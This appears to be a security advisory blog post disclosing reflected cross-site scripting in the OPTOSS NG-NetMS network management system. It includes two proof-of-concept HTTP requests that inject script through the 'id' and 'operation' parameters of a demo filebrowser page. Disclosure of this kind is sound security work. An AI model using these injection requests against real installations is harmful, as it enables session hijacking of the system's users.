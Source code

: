 
---
layout: post
title:  "Cross-site scripting (XSS) in OPTOSS Next Gen Network Management System (NG-NetMS)"
date:   2019-01-20 19:51:02 +0700 
categories: [cve]
---

Vendor: OPT/NET BV

Product: OPTOSS Next Gen Network Management System (NG-NetMS)

Version affected: NG-NetMS v3.6-2 and earlier versions

#### Product description:
Opt/Net develops Next Gen Network Management System (NG-NetMS). This is a new web based end-to-end management tool. This project is nearly 14 years old and already proved to be indispensable tool for rapid data collection during audits and network infrastructure assessments.

This product provides near real-time visibility of the networks and ITC infrastructures and interconnected computing resources.

* CVE ID: CVE-2019-xxxx
* CWE ID: CWE-79

#### #Proof of Concept

Multiple reflected cross-site scripting (XSS) vulnerabilities were discovered in the product.

A cross-site scripting vulnerability was identified on the /js/libs/jstree/demo/filebrowser/index.php page. The “id” and “operation” GET parameters can be used to inject arbitrary JavaScript which is returned in the page's response.

The following Proof of Concept (PoC) demonstrates the attack as well as displaying evidence of the script payload being returned in the response. 

#### Request:
{% highlight ruby %}
POC 1:

GET /js/libs/jstree/demo/filebrowser/index.php?id=%23'<script >prompt('xss')</script>&operation=get_node HTTP/1.1
Referer: http://a.b.c.d:80/index.php?r=site/login
Cookie: PHPSESSID=p4j7rspfhqhpu5duj60um2gaq1
Host: a.b.c.d
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*

POC 2:

GET /js/libs/jstree/demo/filebrowser/index.php?id=%23&operation=get_node'<script >prompt('xss')</script> HTTP/1.1
Referer: http://a.b.c.d:80/index.php?r=site/login
Cookie: PHPSESSID=p4j7rspfhqhpu5duj60um2gaq1
Host: a.b.c.d
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*
{% endhighlight %}

#### References
1. https://www.owasp.org/index.php/SQL_Injection
2. https://opt-net.eu/products/optoss-ng-netms
3. https://sourceforge.net/projects/ngnms/
